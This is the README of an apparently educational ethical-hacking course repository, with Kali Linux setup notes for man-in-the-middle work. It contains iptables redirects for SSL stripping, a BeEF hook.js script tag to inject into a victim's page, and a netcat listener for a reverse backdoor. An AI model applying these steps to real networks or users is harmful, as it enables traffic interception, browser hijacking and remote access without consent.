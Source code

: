 # Ethical Hacking Course
Repository for all the code related to Learn Python &amp; "Ethical Hacking From Scratch" course.  
All the work is done on Kali Linux, using both Python 2.7 and 3.x version.

## Requirements
Besides the needed libraries stated in *requirements.txt* file, BeEF framework for Kali Linux is required. Install it with the following command:  
`sudo apt-get install beef-xss`

If SSLstrip is not provided with your distribution of Kali Linux virtual machine, install it from the original source: [moxie0/sslstrip](https://github.com/moxie0/sslstrip "A tool for exploiting Moxie Marlinspike's SSL \"stripping\" attack.").

## Guidelines

### Kali Linux
To enable **IP forwarding**, enter the following command into the terminal:  
`echo 1 > /proc/sys/net/ipv4/ip_forward`

To create **net filter queue** (*iptables*), enter the following command:  
`iptables -I FORWARD -j NFQUEUE --queue-num <number>`,  
where the default `<number>` is `0`.

For local testing, use both `INPUT` and `OUTPUT` chain.

To enable a basic HTTP server, type:  
`sudo service apache2 start`

### Python
You can terminate all running python programs by typing `killall python` in the terminal.  

On Windows, while having both Python 2 and 3 installed, we can force to run either version by running:  
`py -<version> <name_of_script_file>`  
where `<version>` can be '2' or '3'.

In order to package Python scripts into executable files, you need to have "pyinstaller" installed
 and ou have to run the following command:
`pyinstaller <script_name.py> --onefile`  
You might need to use a path to "pyinstaller" instead, if it's not added to PATH.  
`--onefile` argument ensures all the required libraries and files are put into **single** executable.  
The created executable can be found in the "dist" folder.
### BeEF
The code we want to inject into our victim is:  
`<script src="http://<IP>:3000/hook.js"></script`,  
where `<IP>` is the IP of your host server containing *hook.js*.

If you are using a HTTP server, make sure insert the code snippet above
into */var/www/html/index.html*.

### SSLstrip
To use SSLstrip, use the following command to enable it in *iptables*:  
`iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000`

This makes so that all traffic coming to port 80, which is the default port of HTTP websites,
will instead be redirected to port 10000, which is the port the SSLstrip tool uses.

In order to use packet-modifying tools together with SSLstrip, they must be configured to watch
for port 10000 instead of 80 and commands below need to be entered into Linux shell:

`iptables -I INPUT -j NFQUEUE --queue-num <number>`  
`iptables -I OUTPUT -j NFQUEUE --queue-num <number>`

## Tips & Tricks
* It seems that *netfilterqueue* does not work on Python 3.x.  
* To listen to incoming connections without using custom listener for reverse_backdoor.py,
you can use `nc -vv -l -p <port_number>`.  


